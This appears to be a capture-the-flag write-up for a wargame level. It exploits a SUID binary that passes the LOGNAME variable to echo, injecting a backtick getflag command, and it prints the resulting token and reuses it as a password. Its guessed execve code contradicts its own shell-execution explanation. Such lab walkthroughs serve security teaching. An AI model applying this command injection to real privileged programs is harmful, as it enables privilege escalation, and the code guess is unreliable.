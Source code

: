 # Level 07 - Environment Variable Exploitation

## Step 1: Examine available files

Let's check what files we have in the home directory:

```sh
ls -l
```

We find an executable with SUID permissions:

```
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Note that this binary is owned by flag07 and has the SUID bit set, meaning it will run with flag07's privileges.

## Step 2: Test the executable

Let's run the program to see what it does:

```sh
./level07
```

Output:
```
level07
```

It seems to be printing the value "level07", which happens to be our username.

## Step 3: Analyze the binary

Let's examine the binary's strings to gain insight into how it works:

```sh
strings level07
```

Among the output, we find these interesting strings:

```
LOGNAME
/bin/echo %s
```

This suggests that the program:
1. Retrieves the environment variable LOGNAME
2. Uses /bin/echo to print its value

The code is likely doing something similar to:

```c
execve("/bin/echo", "echo", getenv("LOGNAME"), NULL);
```

## Step 4: Understand the vulnerability

The program is using the LOGNAME environment variable without validation. Since the program runs with flag07's privileges (due to SUID), we can exploit this by setting LOGNAME to a command we want to execute.

## Step 5: Exploit the vulnerability

Let's modify the LOGNAME environment variable to execute the getflag command:

```sh
export LOGNAME=\`getflag\`
```

The backticks (``) will cause the shell to execute the getflag command and replace it with its output.

When the program runs:
1. It retrieves LOGNAME, which now contains our command
2. It passes this to /bin/echo
3. The shell executes our command with flag07's privileges before passing to echo

## Step 6: Run the exploit

Now we execute the program again:

```sh
./level07
```

## Step 7: Get the flag

The output gives us our flag:

```
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## Step 8: Proceed to next level

Now we can advance to level08:

```sh
su level08
Password: fiumuikeil55xe9cu4dood66h
```

